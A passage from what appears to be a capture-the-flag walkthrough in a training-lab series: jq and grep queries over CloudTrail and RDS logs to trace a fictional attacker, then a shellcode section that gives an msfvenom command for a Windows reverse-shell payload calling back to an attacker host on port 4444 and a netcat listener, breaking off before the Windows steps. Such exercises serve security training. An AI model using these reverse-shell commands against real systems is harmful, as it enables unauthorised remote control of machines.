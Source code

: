 **What type of access was assigned to the anomalous user?**

```shell
jq -r '["User_Name", "Event_Time", "Event_Name", "User_Updated", "Policy"],
( .Records[] 
  | select(
      .eventName == "AttachUserPolicy"
      and .userIdentity.userName == "mcskidy"
    )
  | [.userIdentity.userName, .eventTime, .eventName, .requestParameters.userName, .requestParameters.policyArn]
) | @tsv' ~/wareville_logs/cloudtrail_log.json
```

**Which IP does Mayor Malware typically use to log into AWS?**

```shell
jq -r '.Records[] | select(.userIdentity.userName == "mayor_malware") | .sourceIPAddress' \
~/wareville_logs/cloudtrail_log.json | sort -u
```

**What is McSkidy's actual IP address?**

```shell
jq -r '.Records[]
| select(
  .userIdentity.userName == "mcskidy"
  and .sourceIPAddress != "53.94.201.69"
) | .sourceIPAddress' \
~/wareville_logs/cloudtrail_log.json | sort -u
```

**What is the bank account number owned by Mayor Malware?**

```shell
cat ~/wareville_logs/rds.log | \
grep "INSERT INTO wareville_bank_transactions" | grep "Mayor Malware" | \
grep -oP "VALUES \('\K[^']+" | sort -u
```

## Day 8: Shellcodes - Shellcodes of the world, unite!

**What is the flag value once Glitch gets reverse shell on the digital vault using port 4444?**

On the AttackBox:

1) Create the shell code on the AttackBox
```shell
export ATTACKBOX_IP=x.x.x.x
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKBOX_IP LPORT=4444 -f powershell
```

2) Start the listener:
```shell
nc -nvlp 4444
```

On the Windows machine:
